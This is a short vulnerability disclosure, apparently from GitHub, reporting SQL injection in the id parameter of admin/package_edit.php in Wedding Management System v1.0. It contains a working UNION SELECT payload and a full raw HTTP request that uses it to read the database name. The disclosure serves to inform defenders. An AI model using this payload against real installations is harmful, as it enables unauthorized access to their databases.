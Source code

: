 # Wedding Management System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\package_edit.php

Vulnerability location: /Wedding-Management/admin/package_edit.php?id=, id

[+] Payload: id=-1%20union%20select%201,2,database(),4--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/package_edit.php?id=-1%20union%20select%201,2,database(),4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167984006-c5b3f6ba-21f9-4910-9b9e-fdee59b33096.png)

![image](https://user-images.githubusercontent.com/54017627/167984033-f27055c0-ebed-4e24-a33b-3d36ddcafb3c.png)


